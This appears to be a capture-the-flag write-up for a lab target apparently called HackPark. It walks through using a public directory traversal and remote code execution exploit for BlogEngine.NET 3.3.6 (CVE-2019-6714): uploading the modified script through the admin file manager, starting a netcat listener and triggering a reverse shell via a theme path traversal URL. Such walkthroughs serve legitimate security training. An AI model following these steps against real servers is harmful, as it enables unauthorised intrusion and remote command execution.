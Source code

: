 More on that:

    # searchsploit -m aspx/webapps/46353.cs
      Exploit: BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution
          URL: https://www.exploit-db.com/exploits/46353
         Path: /usr/share/exploitdb/exploits/aspx/webapps/46353.cs
    File Type: HTML document, ASCII text
    
    Copied to: /home/nina/Downloads/46353.cs

Get the CVE:
                                                                                                                 
    # grep CVE 46353.cs
    # CVE : CVE-2019-6714

With possible exploit [BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution](https://www.exploit-db.com/exploits/46353)

1. Download and modify the IP and port values in the script.

| ![Exploit script](/_static/images/screenshot-46353.png)
|:--:|
| Change IP address to the IP address of the attack machine, and port to listening port (4442) |

2. Save and rename script to `PostView.ascx`
3. Go to posts (`http://IP address target machine/admin/#/content/posts`) and click on "Welcome to HackPark" to edit it.

| ![Edit button](/_static/images/screenshot-edit.png)
|:--:|
| There it is |

4. On the edit bar on top of the post, click on the "File Manager" icon.

| ![File manager button](/_static/images/screenshot-file-manager.png)
|:--:|
| Not easy to find |

5. Click on the "+ UPLOAD" button and upload the `PostView.ascx` script
6. Close the file manager and click on "Save"
7. Start a listener with the port as entered in the script

```text
# rlwrap nc -nlvp 4442
```

8. Go to `http://IP address target machine/?theme=../../App_Data/files`

```text
whoami
c:\windows\system32\inetsrv>whoami
iis apppool\blog
```
